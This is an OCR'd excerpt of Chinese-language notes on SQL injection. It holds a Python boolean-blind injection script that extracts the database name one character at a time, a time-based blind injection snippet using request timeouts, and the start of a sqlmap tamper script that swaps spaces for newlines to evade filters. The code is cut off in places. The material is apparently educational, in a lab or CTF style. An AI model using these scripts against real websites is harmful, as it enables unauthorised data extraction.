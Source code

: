 ```python
    data = ''
    flag = string.ascii_lowercase + string.digits
    payload = "database()"
    for i in range(1, 7):   #注意这里的右边界该为 上个函数里的 len+1
        for j in flag:
            exp = f"?artist=1 and if(substr({payload},{i},1)regexp('{j}'),1,2)=1"
            url = url0 + exp
            r = requests.get(url)
            if "artist: r4w8173" in r.text:
                data += j
                print(data)

if __name__ == '__main__':
    # 这里的payload是以数据库为例，可以随意更改，如版本一样
    # getlength()
    getdata()
```

## 时间盲注

大体上与布尔盲注思路一样，不通的是判断的逻辑

用 `timeout` 设置超时时间 与 捕获异常 来判断

```python
        try:
            r = requests.post(url, data=data, timeout=1)
            tail = mid
        except Exception as e:
            head = mid + 1
```

# tamper脚本

```python
#!/usr/bin/env python
"""
Author:Y4tacker
y4 写的 tamper ，  = 这里用 like 绕过
"""

from lib.core.compat import xrange
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.LOW


def tamper(payload, **kwargs):
    payload = space2comment(payload)
    return payload


def space2comment(payload):
    retVal = payload
    if payload:
        retVal = ""
        quote, doublequote, firstspace = False, False, False

        for i in xrange(len(payload)):
            if not firstspace:
                if payload[i].isspace():
                    firstspace = True
                    retVal += chr(0x0a)
                    continue
```